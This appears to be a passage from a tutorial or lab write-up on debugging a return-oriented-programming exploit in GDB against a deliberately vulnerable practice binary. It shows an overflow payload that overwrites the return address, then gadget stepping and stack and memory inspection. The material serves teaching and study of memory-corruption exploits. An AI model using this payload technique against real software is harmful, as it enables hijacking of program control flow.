 #### 2.3. ROP Chain Testing
```bash
# Test with payload
(gdb) run
# Manually enter payload:
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\x12\x40\x00\x00\x00\x00\x00

# Examine stack
(gdb) x/32gx $rsp
(gdb) x/32gx $rbp

# Check if return address changed
(gdb) x/gx $rsp+0x48
(gdb) x/gx $rbp+0x8
```

#### 2.4. Gadget Analysis
```bash
# Test gadgets one by one
(gdb) break gadget_pop_rdi
(gdb) run
(gdb) x/32gx $rsp
(gdb) stepi
(gdb) info registers

# Test execute_whoami function
(gdb) break execute_whoami
(gdb) run
(gdb) x/32gx $rsp
(gdb) stepi
(gdb) continue
```

#### 2.5. Memory Layout Analysis
```bash
# Examine memory mapping
(gdb) info proc mappings
(gdb) info files
(gdb) info target

# Examine stack and heap state
(gdb) x/32gx $rsp
(gdb) x/32gx $rbp
(gdb) x/32gx $rsp-0x100
```

#### 2.6. Advanced GDB Techniques
```bash
# Conditional breakpoints
(gdb) break vulnerable_function if $rsp == 0x7fffffffe000
(gdb) break execute_whoami if $rdi == 0x401220

# Watchpoints
(gdb) watch *0x7fffffffe048
(gdb) watch $rsp+0x48

# TUI mode analysis
(gdb) layout asm
(gdb) layout regs
(gdb) layout split

# Automated analysis with scripts
(gdb) define analyze_rop
> break vulnerable_function
```